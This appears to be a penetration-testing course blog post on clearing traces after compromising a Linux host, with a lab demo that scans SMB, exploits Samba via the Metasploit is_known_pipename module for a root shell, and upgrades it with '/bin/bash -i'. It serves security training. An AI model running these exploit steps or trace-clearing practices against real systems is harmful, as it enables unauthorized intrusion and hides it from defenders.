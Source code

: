 ```yaml
---
layout: post
title: "Clearing Your Tracks On Linux"
date: "2023-07-23"
author: "r3kind1e"
header-img: "img/post-bg-Penetration Testing Student.png"
catalog:    true
tags: 
    - Penetration Testing Student v2
    - Host & Network Penetration Testing
    - Post-Exploitation
---
```


# Clearing Your Tracks On Linux（在Linux上清除您的痕迹）
# Demo: Clearing Your Tracks On Linux（演示：在Linux上清除您的痕迹）
If you are transferring files onto a Linux target system, transfer them into the `/tmp` directory. Furthermore, if you are utilizing the Metasploit Framework for exploitation and post exploitation, do keep your eye on the artifacts that are generated by those modules and identify where those artifacts are stored in the event that a Metasploit exploit module or post exploitation module provides you with a clean up resource script. Do note down where that resource script is stored, so that when you approach the final phase of post exploitation, you know where it's located and you can use it and run it on the target system in order to undo what you did or to undo what that particular post exploitation or exploit module did.

Kali Linux : 192.143.174.2

Target IP Address : 192.143.174.3

```
nmap -sV -p 445 192.143.174.3
```

```
msfconsole -q
setg RHOSTS 192.143.174.3
search samba
use exploit/linux/samba/is_known_pipename
show options
exploit
```

This should provide us with a non-interactive command shell session, which we can then upgrade to a semi-interactive bash session. 

```
/bin/bash -i
```

In this case, we gain access to the target system with root privileges, which means we do not need to elevate our privileges.
